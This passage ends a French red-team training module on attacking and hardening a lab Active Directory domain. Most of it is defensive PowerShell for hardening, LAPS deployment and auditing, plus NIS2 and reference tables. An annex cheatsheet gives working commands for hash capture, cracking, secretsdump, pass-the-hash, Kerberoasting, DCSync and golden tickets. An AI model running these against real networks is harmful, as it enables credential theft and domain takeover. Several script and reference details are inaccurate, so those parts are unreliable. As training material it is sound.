        -Name "EnableSecuritySignature" -Value 1
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters" `
        -Name "EnableSecuritySignature" -Value 1
    Write-Host "  ✓ SMB Signing activé" -ForegroundColor Green
} catch {
    Write-Error "  ✗ Échec : $_"
}

# ============================================
# 4. Activer Credential Guard (protège LSASS)
# ============================================
Write-Host "[4/8] Activation de Windows Defender Credential Guard..." -ForegroundColor Yellow
try {
    # Vérifier que le système supporte Credential Guard
    $osInfo = Get-WmiObject Win32_OperatingSystem
    if ($osInfo.Version -ge "10.0.14393") {
        # Ajouter la clé de registre pour Credential Guard
        $credGuardPath = "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa"
        if (-not (Test-Path "$credGuardPath\LsaCfgFlags")) {
            New-Item -Path $credGuardPath -Name "LsaCfgFlags" -Force | Out-Null
        }
        Set-ItemProperty -Path $credGuardPath -Name "LsaCfgFlags" -Value 1
        Write-Host "  ✓ Credential Guard activé (redémarrage nécessaire)" -ForegroundColor Green
    } else {
        Write-Warning "  ⚠ Système non compatible (Windows Server 2016+ requis)"
    }
} catch {
    Write-Error "  ✗ Échec : $_"
}

# ============================================
# 5. Désactiver WDigest (empêche stockage en clair)
# ============================================
Write-Host "[5/8] Désactivation de WDigest..." -ForegroundColor Yellow
try {
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" `
        -Name "UseLogonCredential" -Value 0
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" `
        -Name "Negotiate" -Value 0
    Write-Host "  ✓ WDigest désactivé" -ForegroundColor Green
} catch {
    Write-Error "  ✗ Échec : $_"
}

# ============================================
# 6. Restreindre l'accès au registre distant
# ============================================
Write-Host "[6/8] Restriction de l'accès au registre distant..." -ForegroundColor Yellow
try {
    Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg" `
        -Name "RemoteRegAccess" -Value 1
    Write-Host "  ✓ Accès au registre distant restreint" -ForegroundColor Green
} catch {
    Write-Error "  ✗ Échec : $_"
}

# ============================================
# 7. Activer les types de chiffrement AES256 pour les comptes de service
# ============================================
Write-Host "[7/8] Configuration des types de chiffrement AES256..." -ForegroundColor Yellow
try {
    $serviceAccounts = @("svc_backup", "svc_sql")
    foreach ($sam in $serviceAccounts) {
        try {
            $user = Get-ADUser -Identity $sam -Properties msDS-SupportedEncryptionTypes
            if ($user) {
                Set-ADUser -Identity $sam -Replace @{
                    "msDS-SupportedEncryptionTypes" = 24  # AES128 + AES256
                } -ErrorAction Stop
                Write-Host "  ✓ AES activé pour $sam" -ForegroundColor Green
            }
        } catch {
            Write-Warning "  ⚠ Compte $sam non trouvé : $_"
        }
    }
} catch {
    Write-Error "  ✗ Échec global : $_"
}

# ============================================
# 8. Appliquer la politique de mot de passe renforcée
# ============================================
Write-Host "[8/8] Application de la politique de mot de passe..." -ForegroundColor Yellow
try {
    # Cette partie nécessite les outils RSAT AD
    Import-Module ActiveDirectory -ErrorAction SilentlyContinue

    if (Get-Module -Name ActiveDirectory) {
        # Politique de domaine par défaut
        Set-ADDefaultDomainPasswordPolicy `
            -Identity corp.shadow.local `
            -MinPasswordLength 14 `
            -MaxPasswordAge 90 `
            -MinPasswordAge 1 `
            -PasswordHistoryCount 24 `
            -ReversibleEncryptionEnabled $false `
            -ComplexityEnabled $true `
            -LockoutThreshold 5 `
            -LockoutDuration 30 `
            -LockoutObservationWindow 30

        Write-Host "  ✓ Politique de mot de passe appliquée" -ForegroundColor Green
    } else {
        Write-Warning "  ⚠ Module Active Directory non disponible — politique non appliquée"
    }
} catch {
    Write-Error "  ✗ Échec : $_"
}

Write-Host "=== Durcissement terminé ===" -ForegroundColor Cyan
Write-Host "Certains changements nécessitent un redémarrage." -ForegroundColor Magenta
```

#### 9.2.2 Déploiement LAPS automatisé

```powershell
<#
.SYNOPSIS
    Déploiement automatisé de LAPS (Local Administrator Password Solution)
.DESCRIPTION
    Ce script installe et configure LAPS pour l'ensemble du domaine CorpShadow.
    Nécessite le fichier d'installation LAPS.x64.msi disponible sur le partage.
#>

$domain = "corp.shadow.local"
$lapsInstaller = "\\DC01\SYSVOL\corp.shadow.local\scripts\LAPS.x64.msi"

Write-Host "=== Déploiement LAPS ===" -ForegroundColor Cyan

# Vérifier la présence de l'installateur
if (-not (Test-Path $lapsInstaller)) {
    Write-Error "Installateur LAPS introuvable : $lapsInstaller"
    exit 1
}

# Étape 1 : Étendre le schéma AD
Write-Host "[1/5] Extension du schéma AD..." -ForegroundColor Yellow
try {
    Import-Module AdmPwd.PS -ErrorAction Stop
    Update-AdmPwdADSchema
    Write-Host "  ✓ Schéma AD étendu" -ForegroundColor Green
} catch {
    Write-Error "  ✗ Échec : $_"
    exit 1
}

# Étape 2 : Déléguer les droits
Write-Host "[2/5] Délégation des droits..." -ForegroundColor Yellow
try {
    $ous = @(
        "OU=Workstations,DC=corp,DC=shadow,DC=local",
        "OU=Servers,DC=corp,DC=shadow,DC=local"
    )
    foreach ($ou in $ous) {
        try {
            Set-AdmPwdComputerSelfPermission -OrgUnit $ou
            Write-Host "  ✓ Droits délégués pour $ou" -ForegroundColor Green
        } catch {
            Write-Warning "  ⚠ OU $ou non trouvée"
        }
    }
} catch {
    Write-Error "  ✗ Échec : $_"
}

# Étape 3 : Installer le client LAPS sur toutes les machines via GPO
Write-Host "[3/5] Création de la GPO de déploiement LAPS..." -ForegroundColor Yellow
try {
    $gpoName = "LAPS - Local Admin Password Solution"
    $gpo = Get-GPO -Name $gpoName -ErrorAction SilentlyContinue

    if (-not $gpo) {
        $gpo = New-GPO -Name $gpoName -Comment "Déploie LAPS sur toutes les machines"
        Set-GPRegistryValue `
            -Name $gpoName `
            -Key "HKLM\Software\Policies\Microsoft Services\AdmPwd" `
            -ValueName "AdmPwdEnabled" `
            -Type DWord `
            -Value 1

        # Lier la GPO au domaine
        New-GPLink -Name $gpoName -Target "dc=corp,dc=shadow,dc=local"

        # Délégation de lecture pour les comptes autorisés
        Set-GPPermission -Name $gpoName -TargetType Computer -TargetName "Domain Computers" -PermissionLevel Read

        Write-Host "  ✓ GPO $gpoName créée" -ForegroundColor Green
    } else {
        Write-Host "  ✓ GPO $gpoName existe déjà" -ForegroundColor Yellow
    }
} catch {
    Write-Error "  ✗ Échec : $_"
}

# Étape 4 : Vérifier LAPS
Write-Host "[4/5] Vérification de LAPS..." -ForegroundColor Yellow
try {
    # Vérifier que LAPS est installé sur le DC
    $lapsInstalled = Get-WmiObject -Class Win32_Product | Where-Object { $_.Name -like "*LAPS*" }
    if (-not $lapsInstalled) {
        Write-Warning "  ⚠ LAPS n'est pas installé sur le DC — installation en cours..."
        Start-Process msiexec.exe -ArgumentList "/i $lapsInstaller /quiet" -Wait
    }

    # Vérifier les attributs AD
    $schema = Get-ADObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=corp,DC=shadow,DC=local" `
        -ErrorAction SilentlyContinue
    if ($schema) {
        Write-Host "  ✓ Attribut ms-Mcs-AdmPwd trouvé dans le schéma" -ForegroundColor Green
    }
} catch {
    Write-Error "  ✗ Échec : $_"
}

# Étape 5 : Rapport
Write-Host "[5/5] Génération du rapport..." -ForegroundColor Yellow
try {
    # Lister les mots de passe administrateur locaux
    Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime | `
        Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | `
        Select-Object Name, @{N="Password";E={$_.'ms-Mcs-AdmPwd'}}, @{N="Expiration";E={
            if ($_.'ms-Mcs-AdmPwdExpirationTime') {
                [DateTime]::FromFileTime($_.'ms-Mcs-AdmPwdExpirationTime')
            }
        }} | Format-Table -AutoSize

    Write-Host "  ✓ Rapport généré" -ForegroundColor Green
} catch {
    Write-Warning "  ⚠ Aucun mot de passe LAPS trouvé (normal — les clients doivent appliquer la GPO d'abord)"
}

Write-Host "=== Déploiement LAPS terminé ===" -ForegroundColor Cyan
Write-Host "Les clients appliqueront la GPO lors de leur prochaine actualisation (90 min par défaut)." -ForegroundColor Magenta
Write-Host "Pour forcer : gpupdate /force sur chaque machine." -ForegroundColor Magenta
```

### 9.3 Audit de sécurité post-exercice

```powershell
<#
.SYNOPSIS
    Script d'audit rapide pour vérifier les vulnérabilités corrigées
#>

Write-Host "=== Audit de sécurité CorpShadow ===" -ForegroundColor Cyan

$results = @()

# 1. Vérifier LLMNR
$llmnr = Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" `
    -Name "EnableMulticast" -ErrorAction SilentlyContinue
$results += [PSCustomObject]@{
    Test = "LLMNR désactivé"
    Status = if ($llmnr.EnableMulticast -eq 0) { "✓ OK" } else { "✗ VULNÉRABLE" }
}

# 2. Vérifier SMB Signing
$smbServer = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" `
    -Name "RequireSecuritySignature" -ErrorAction SilentlyContinue
$results += [PSCustomObject]@{
    Test = "SMB Signing (serveur)"
    Status = if ($smbServer.RequireSecuritySignature -eq 1) { "✓ OK" } else { "✗ VULNÉRABLE" }
}

# 3. Vérifier Credential Guard
$lsaCfg = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" `
    -Name "LsaCfgFlags" -ErrorAction SilentlyContinue
$results += [PSCustomObject]@{
    Test = "Credential Guard"
    Status = if ($lsaCfg.LsaCfgFlags -ge 1) { "✓ OK" } else { "✗ VULNÉRABLE" }
}

# 4. Vérifier WDigest
$wdigest = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" `
    -Name "UseLogonCredential" -ErrorAction SilentlyContinue
$results += [PSCustomObject]@{
    Test = "WDigest désactivé"
    Status = if ($wdigest.UseLogonCredential -eq 0) { "✓ OK" } else { "✗ VULNÉRABLE" }
}

# 5. Vérifier Remote Registry
$remoteReg = Get-Service -Name "RemoteRegistry" -ErrorAction SilentlyContinue
$results += [PSCustomObject]@{
    Test = "Remote Registry désactivé"
    Status = if ($remoteReg.Status -eq "Stopped") { "✓ OK" } else { "✗ VULNÉRABLE" }
}

# 6. Vérifier LAPS
$lapsInstalled = Get-WmiObject -Class Win32_Product | Where-Object { $_.Name -like "*LAPS*" }
$results += [PSCustomObject]@{
    Test = "LAPS installé"
    Status = if ($lapsInstalled) { "✓ OK" } else { "⚠ Non installé" }
}

# 7. Vérifier la politique de mot de passe
try {
    $policy = Get-ADDefaultDomainPasswordPolicy -ErrorAction Stop
    $results += [PSCustomObject]@{
        Test = "Longueur minimale mot de passe (≥14)"
        Status = if ($policy.MinPasswordLength -ge 14) { "✓ OK ($($policy.MinPasswordLength))" } else { "✗ VULNÉRABLE ($($policy.MinPasswordLength))" }
    }
} catch {
    $results += [PSCustomObject]@{
        Test = "Politique mot de passe"
        Status = "⚠ Impossible de vérifier"
    }
}

# Afficher les résultats
$results | Format-Table -AutoSize

$vulnerable = $results | Where-Object { $_.Status -like "*VULNÉRABLE*" }
if ($vulnerable) {
    Write-Host "ATTENTION : $($vulnerable.Count) point(s) vulnérable(s) détecté(s) !" -ForegroundColor Red
} else {
    Write-Host "Aucune vulnérabilité critique détectée." -ForegroundColor Green
}
```

### 9.4 Guide de réponse NIS2

| Mesure NIS2 | Mise en œuvre | Statut |
|-------------|---------------|--------|
| Article 21(2)(a) — Politique d'analyse des risques | Audit AD trimestriel | ⬜ À implémenter |
| Article 21(2)(b) — Gestion des incidents | Plan de réponse aux incidents AD (mots de passe volés, tickets forgés) | ⬜ À implémenter |
| Article 21(2)(c) — Continuité d'activité | Backup NTDS.dit + procédure de restauration KRBTGT | ⬜ À implémenter |
| Article 21(2)(d) — Sécurité de la chaîne d'approvisionnement | Revue des comptes de service et fournisseurs | ⬜ À implémenter |
| Article 21(2)(e) — Sécurité des achats | Standards de configuration AD pour nouveaux serveurs | ⬜ À implémenter |
| Article 21(2)(f) — Gestion des vulnérabilités | Scan mensuel AD + test de pénétration annuel | ⬜ À implémenter |
| Article 21(2)(g) — Formation et sensibilisation | Formation AD sécurité pour les admins | ⬜ À implémenter |
| Article 21(2)(h) — Cryptographie | AES256 pour Kerberos, désactiver RC4 | ⬜ À implémenter |
| Article 21(2)(i) — Sécurité des ressources humaines | Revue des accès après départ des employés | ⬜ À implémenter |
| Article 21(2)(j) — Contrôle d'accès | MFA obligatoire pour tous les comptes administratifs | ⬜ À implémenter |

---

## 10. Références et ressources

### 10.1 Documentation technique

| Ressource | URL |
|-----------|-----|
| BloodHound Wiki (GitHub) | https://github.com/BloodHoundAD/BloodHound/wiki |
| BloodHound Python Ingestor | https://github.com/fox-it/BloodHound.py |
| Impacket Documentation | https://github.com/fortra/impacket |
| Responder Framework | https://github.com/lgandx/Responder |
| John the Ripper | https://github.com/openwall/john |
| Hashcat | https://github.com/hashcat/hashcat |
| Mimikatz | https://github.com/gentilkiwi/mimikatz |
| LAPS (Microsoft) | https://www.microsoft.com/en-us/download/details.aspx?id=46899 |

### 10.2 MITRE ATT&CK

| ID | Technique | URL |
|----|-----------|-----|
| T1087.002 | Account Discovery: Domain Account | https://attack.mitre.org/techniques/T1087/002/ |
| T1557.001 | LLMNR/NBT-NS Poisoning and SMB Relay | https://attack.mitre.org/techniques/T1557/001/ |
| T1110.002 | Password Cracking | https://attack.mitre.org/techniques/T1110/002/ |
| T1003.002 | SAM Dumping | https://attack.mitre.org/techniques/T1003/002/ |
| T1550.002 | Pass-the-Hash | https://attack.mitre.org/techniques/T1550/002/ |
| T1558.003 | Kerberoasting | https://attack.mitre.org/techniques/T1558/003/ |
| T1003.006 | DCSync | https://attack.mitre.org/techniques/T1003/006/ |
| T1558.001 | Golden Ticket | https://attack.mitre.org/techniques/T1558/001/ |

### 10.3 Guides de remédiation

| Guide | URL |
|-------|-----|
| Microsoft — Securing Active Directory | [référence supprimée] |
| ANSSI — Guide d'administration sécurisée d'Active Directory | [référence supprimée] |
| ANSSI — Guide NIS2 | https://cyber.gouv.fr/reglementation/cybersecurite-systemes-dinformation/directives-nis-nis2-et-dispositif-saiv/directive-nis-2/ |
| CIS Benchmarks — Windows Server 2022 | https://www.cisecurity.org/benchmark/microsoft_windows_server/ |
| Microsoft — LAPS Deployment | https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview |
| Microsoft — Credential Guard | https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard |
| Microsoft — Responder mitigation | [référence supprimée] |

### 10.4 Outils complémentaires pour l'approfondissement

| Outil | Utilité | Lien |
|-------|---------|------|
| Rubeus | Kerberos interaction (C#) | https://github.com/GhostPack/Rubeus |
| PowerView | PowerShell AD enumeration | https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon |
| CrackMapExec | Post-exploitation automatisée | https://github.com/byt3bl33d3r/CrackMapExec |
| NetExec | Fork de CME (maintenu) | https://github.com/Pennyw0rth/NetExec |
| Certipy | AD Certificate Services exploitation | https://github.com/ly4k/Certipy |
| PKINITtools | Kerberos PKINIT abuse | https://github.com/dirkjanm/PKINITtools |
| Whisker | MS-DS-MachineAccountQuota exploitation | https://github.com/eladshamir/Whisker |
| Pre2k | Pre-Windows 2000 computer abuse | https://github.com/leoloobeek/LAPSToolkit |

### 10.5 Laboratoires et plateformes d'entraînement

| Plateforme | Description | URL |
|------------|-------------|-----|
| HackTheBox — Active Directory track | Machines AD variées | https://www.hackthebox.com/ |
| TryHackMe — AD rooms | Salles dédiées AD | https://tryhackme.com/ |
| PentesterLab — Active Directory | Exercices AD progressifs | https://pentesterlab.com/ |
| GOAD (Game of Active Directory) | Lab AD complet autocontenu | https://github.com/Orange-Cyberdefense/GOAD |

---

## Annexe A : Aide-mémoire rapide (cheatsheet)

```bash
# === PHASE 1 : ÉNUMÉRATION ===

# BloodHound (ingestor)
bloodhound-python -d corp.shadow.local -ns 10.10.10.10 -c all

# ldapsearch manuel
ldapsearch -x -H ldap://10.10.10.10 -b "DC=corp,DC=shadow,DC=local" -s sub "(objectClass=user)" sAMAccountName

# === PHASE 2 : CAPTURE DE HASH ===

# Responder
sudo responder -I eth0 -rdwv

# Crack avec john
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/ntlmv2_hash.txt

# Crack avec hashcat (NTLMv2)
hashcat -m 5600 /tmp/ntlmv2_hash.txt /usr/share/wordlists/rockyou.txt --force

# === PHASE 3 : DUMP DE HASHES ===

# secretsdump
impacket-secretsdump CORPSHADOW/jdoe:'P@ssw0rd!2025'@10.10.10.20

# === PHASE 4 : PASS-THE-HASH ===

# wmiexec
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:<NT_HASH> CORPSHADOW/jdoe@10.10.10.20

# psexec
impacket-psexec -hashes :<NT_HASH> CORPSHADOW/jdoe@10.10.10.20

# smbexec
impacket-smbexec -hashes :<NT_HASH> CORPSHADOW/jdoe@10.10.10.20

# === PHASE 5 : KERBEROASTING ===

# Lister les SPNs
impacket-GetUserSPNs CORPSHADOW/jdoe:'P@ssw0rd!2025' -dc-ip 10.10.10.10

# Demander les TGS
impacket-GetUserSPNs CORPSHADOW/jdoe:'P@ssw0rd!2025' -dc-ip 10.10.10.10 -request -outputfile /tmp/tgs.txt

# Crack du TGS (hashcat)
hashcat -m 13100 /tmp/tgs.txt /usr/share/wordlists/rockyou.txt --force

# === PHASE 6 : DCSYNC + GOLDEN TICKET ===

# DCSync
impacket-secretsdump CORPSHADOW/Administrator@10.10.10.10 -just-dc

# Récupérer le SID du domaine
impacket-lookupsid CORPSHADOW/jdoe:'P@ssw0rd!2025'@10.10.10.10 | grep "Domain SID"

# Créer le Golden Ticket
impacket-ticketer -nthash <KRBTGT_NT_HASH> -domain-sid <SID> -domain corp.shadow.local -groups 512,519,518 Administrator

# Utiliser le Golden Ticket
export KRB5CCNAME=/tmp/administrator.ccache
impacket-smbexec -k -no-pass CORPSHADOW/Administrator@DC01.corp.shadow.local
```

## Annexe B : Glossaire des abréviations

| Abréviation | Signification |
|-------------|---------------|
| AD | Active Directory |
| DC | Domain Controller (Contrôleur de domaine) |
| DCSync | Domain Controller Synchronization |
| DRS | Directory Replication Service |
| DRSR | Directory Replication Service (Remote) |
| gMSA | Group Managed Service Account |
| GPO | Group Policy Object |
| KDC | Key Distribution Center (Kerberos) |
| KRBTGT | Kerberos Ticket Granting Ticket account |
| LAPS | Local Administrator Password Solution |
| LLMNR | Link-Local Multicast Name Resolution |
| LSA | Local Security Authority |
| LSASS | Local Security Authority Subsystem Service |
| NBT-NS | NetBIOS Name Service |
| NIS2 | Network and Information Security Directive 2 |
| NTLM | NT LAN Manager |
| PtH | Pass-the-Hash |
| RID | Relative Identifier |
| RODC | Read-Only Domain Controller |
| ROE | Rules of Engagement |
| SAM | Security Account Manager |
| SID | Security Identifier |
| SMB | Server Message Block |
| SPN | Service Principal Name |
| TGS | Ticket-Granting Service |
| TGT | Ticket-Granting Ticket |
| WMI | Windows Management Instrumentation |

---

> **Fin du document — Module 10 : Scénario Autonome CorpShadow**  
> Rédigé dans le cadre de la formation Red Team — Jour 2 : Infrastructure & Active Directory  
> Conforme aux exigences de documentation NIS2 et au framework MITRE ATT&CK v15  
> **Version : 1.0 — Date : 2025-05-30**
